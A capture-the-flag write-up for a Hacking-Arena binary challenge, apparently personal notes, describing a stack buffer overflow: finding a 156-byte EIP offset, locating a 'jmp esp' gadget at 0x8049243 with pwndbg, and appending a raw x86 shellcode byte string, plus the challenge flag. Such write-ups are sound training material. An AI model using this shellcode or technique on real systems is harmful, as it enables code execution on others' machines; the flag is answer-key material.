 # Flag

> Hacking-Arena{Just_a_yellow_lemon_tree}

# Prompt

> I wonder how, I wonder why you cannot solve this binary.

> nc koala2.hackingarena.no 805 nc koala.hackingarena.com 805 (same binary)

# Solution

Determine the necessary size of padding for the attached binary.

Used a random string of numbers and letters to trace how long the padding is.

sF3iUtuwHsfYphKvQZjZp7EczBF4VjHplrQXVojWnv6Ns9m5YRpxMX0OEfCRn5I28hTD4BYrYXvz4hCUSWBrpHXOpPl2eNhTiGy7twXkUW0vL2M54xFdOgeIs7ZFn258PtEc7pgomdqarRVdRnBn78UJOZ85EQoCJm9KUCyVPGexQiNUAzUHIe5MiMzDWQbz6O98mtQqByIXaWmV4CfIXy0mFMeCWr1ea

![[Pasted image 20241115174836.png]]

The EIP tells us that the padding ended before EQoC from the random string, 

Run binary file and attempt to crash when output equals "... , But nothing ever".



Padding is equal to 156, so I proceed by finding the return address of the binary file (jmp esp)

Edit template.py to match padding of 156




Run template.py and debug using GDB, then search and find 'jmp esp'



Run template.py, debug and search for 'jmp esp' using pwndbg:

search --asm 'jmp esp'



Add a payload for template.py:
payload+= p32(0x8049243)

Edit template.py and include 'jmp esp' as a payload.



Add another payload, the same payload from the strawberry CTF.
payload+='\x99\x52\x58\x52\xbf\xb7\x97\x39\x34\x01\xff\x57\xbf\x97\x17\xb1\x34\x01\xff\x47\x57\x89\xe3\x52\x53\x89\xe1\xb0\x63\x2c\x58\x81\xef\x62\xae\x61\x69\x57\xff\xd4'

Additionally, add the payload used in "Strawberry Exploit".


Lastly, run template.py on web server and port.

"cat flag" to find CTF flag
# Additional Info

Additional solution / info